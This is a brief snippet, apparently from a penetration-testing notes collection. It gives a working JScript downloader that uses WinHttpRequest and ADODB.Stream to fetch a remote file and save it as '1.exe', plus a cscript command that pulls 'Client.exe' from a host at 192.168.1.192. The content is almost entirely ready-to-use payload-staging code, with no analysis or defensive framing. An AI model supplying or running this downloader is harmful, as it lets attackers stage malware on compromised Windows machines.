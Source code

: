 ```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1; BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("1.exe");
```
	>cscript /nologo 1.js http://192.168.1.192/Client.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/312.png)